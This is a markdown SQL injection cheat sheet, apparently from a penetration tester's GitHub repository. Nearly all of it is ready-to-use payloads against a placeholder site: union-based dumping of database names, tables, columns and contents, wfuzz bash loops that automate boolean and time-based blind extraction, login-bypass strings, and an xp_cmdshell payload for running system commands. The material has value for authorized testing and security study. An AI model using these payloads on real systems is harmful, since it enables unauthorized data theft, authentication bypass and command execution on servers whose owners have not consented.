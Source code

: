 #### SQL Injection Cheatsheet
This document is collection of basic SQL command injection and should NOT be conbsiderd as reference but guide to built on. Keep in mind some of the examples below will require modification(s) such as url encode, comments, etc. Now before we contiune here is couple good to know SQL functions

```php
limit <row offset>,<number of rows>                          # display rows based on offset and number  

count(*)                                                     # display number of rows  

rand()                                                       # generate random number between 0 and 1 

floor(rand()*<number>)                                       # print out number part of random decimal number 

select(select database());                                   # double query (nested) using database() as an example 

group by <column name>                                       # summerize rows based on column name  

concat(<string1>, <string2>, ..)                             # concatenate strings such as tables, column names  

length(<string>)                                             # calculate the number of characters for given string 

substr(<string>,<offset>,<characters length>)                # print string character(s) by providing offset and length 

ascii(<character>)                                           # decimal representation of the character 

sleep(<number of seconds>)                                   # go to sleep for <number of seconds>

if(<condition>,<true action>,<false action>)                 # conditional if statement 

like "<string>%"                                             # checks if provided string present

outfile "<url to file>"                                      # dump output of select statement into a file
```
Now comes the fun part, here's combination of error, union, blind SQL command injection examples.

Determine back-end query number of columns with error-based string SQL command injection
```php
http://meh.com/index.php?id=1 order by <number>
```

Determine back-end query number of columns by observing `http response size` with `wfuzz` in error-based integer SQL command injection
```php
wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
```

Identify webpage printable union columns by providing false value to back-end query with error-based integer SQL command injection. This injection depends on number of columns identified by `order by` clause
```php
http://meh.com/index.php?id=-1 union select <number of columns seperated by comma>
```

Print back-end SQL version with error-based integer SQL command injection, assuming column 3 content gets diplayed on webpage
```php
http://meh.com/index.php?id=-1 union select 1,2,@@version,4,...
```

Print user running the query to access back-end database server with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,user(),4,...
```

Print database name with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,database(),4,...
```

Print database directory with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,@@datadir,4,...
```

Print table names with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(table_name),4,... from information_schema.tables where table_schema=database()
```

Print column names with error-based integer SQL command injection
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(column_name),4,... from information_schema.columns where table_name='<table name>'
```

Print content of column with error-based integer SQL command injection 
```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(<column name>),4,... from <table name>
```

Use `and` statement as substitute to reqular comments such as `--+`, `#`, and `/* */` with error-based string SQL command injection
```php
http://meh.com/index.php?id=1' <sqli here> and '1
```
Determine databsae name with boolean-based blind SQL injection with `substr()`
```php
http://meh.com/index.php?id=1' and (substr(database(),<offset>,<character length>))='<character>' --+
```

Determine databsae name with boolean-based blind SQL injection by observing `http response size` with combination of `substr()` and `wfuzz`, assuming database name does not include special characters
```php
for i in $(seq 1 10); do wfuzz -c -z list,a-b-c-d-e-f-g-h-i-j-k-l-m-n-o-p-q-r-s-t-u-v-w-x-y-z --hw=<word count> "http://meh.com/index.php?id=1' and (substr(database(),$i,1))='FUZZ' --+";done 
```
Determine databsae name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()` and `wfuzz`. The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 
```

Determine table name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available table name 
```

Determine column name with boolean blind-based SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`. The below range is the standard ASCII characters (32-127) 
```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=<table name> limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available column name 
```
Boolean-based blind SQL command injection demo

![alt text](https://j.gifs.com/W77p8o.gif)

Confirm time-based blind SQL injection using `sleep()` function
```php
http://meh.com/index.php?id=1' and sleep(10) --+
```

Determine database version with time-based blind SQL injection using `sleep()`, `like""`, and conditional `if`, assuming the back-end database is running version 5
```php
http://meh.com/index.php?id=1' and if((select version()) like "5%", sleep(10), null) --+
```

Determine database name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((ascii(substr(database(),$i,1)))=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt>
```

Determine table name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(table_name,$i,1))from information_schema.tables where table_schema=database() limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available table name 
```
Determine column name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(column_name,$i,1))from information_schema.columns where table_name='<table name>' limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available column name 
```

Extract column content with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters (32-127)
```php
for i in $(seq 1 10); do wfuzz -v -c -z range,0-10 -z range,32-127 "http://meh.com/index.php?id=1' and if(ascii(substr((select <column name> from <table name> limit FUZZ,1),$i,1))=FUZ2Z, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # change <column name> to get the content of next column
```
Time-based blind SQL command injection with bash magic demo

![alt text](https://j.gifs.com/2vv2J1.gif)

Hope those were helpfull! Now here's couple login bypass commands that worked for me
```php
meh' OR 3=3;#
meh' OR 2=2 LIMIT 1;#
meh' OR 'a'='a
meh' OR 1=1 --+
```
Sometimes you'll find SQL server that have `xp_cmdshell` turned on
```php
meh' exec master..xp_cmdshell '<command here>' --
```

Final notes!
- Use your proxy of choice to bypass client-side javascript restrictions
- `order by` clause works only with regular comments such as `--+`
- Make sure to update ASCII range to include special characters if you're going after users table

To do list
- Python or bash script to convert ascii to text after data extraction (grep output in this case)
- Create outfile && loadfile templates

